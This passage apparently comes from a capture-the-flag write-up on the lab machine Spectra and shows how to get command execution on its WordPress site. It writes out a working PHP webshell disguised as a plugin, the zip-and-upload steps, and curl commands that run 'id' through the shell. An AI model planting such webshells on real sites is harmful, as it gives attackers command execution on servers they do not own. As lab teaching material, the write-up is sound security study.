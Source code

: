 

    root@kali# curl http://spectra.htb/main/wp-content/plugins/akismet/akismet.php?0xdf=id
    uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)
    Hi there!  I'm just a plugin, not much I can do when called directly.



#### New Plugin

Alternatively, I could just write my own plugin. There are tools like
[Wordpwn](https://github.com/wetw0rk/malicious-wordpress-plugin) that
will generate one, or a [Metasploit
module](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/)
that will do it, but for the sake of showing how things work under the
hood, I'll create one from scratch. A WordPress plugin can be as simple
as a PHP script with some basic comments at the front in a zip file.

I'll create the webshell and name it `0xdf.php`:



    <?php
     /*
     Plugin Name: 0xdf Plugin
     Version: 1.0.0
     Author: 0xdf
     Author URI: wordpress.org
     License: GPL2
     */
    system($_REQUEST["0xdf"]);
    ?>



The comments are necessary for WordPress to accept it as a plugin. Now
I'll add that to a zip file:



    root@kali# zip 0xdf-plug.zip 0xdf.php
      adding: 0xdf.php (deflated 11%)



Under Plugins -\> Add New, I'll click the Upload Plugin button and find
the zip:

![](/img/image-20210127110122700.png)

When I hit Install Now, it reports success:

![](/img/image-20210127110155714.png)

I don't need to hit Activate, as installing is enough to drop the file
at the right path. Now I can use `curl` or Firefox to execute commands:



    root@kali# curl http://spectra.htb/main/wp-content/plugins/0xdf-plug/0xdf.php?0xdf=id
    uid=20143(nginx) gid=20144(nginx) groups=20144(nginx)
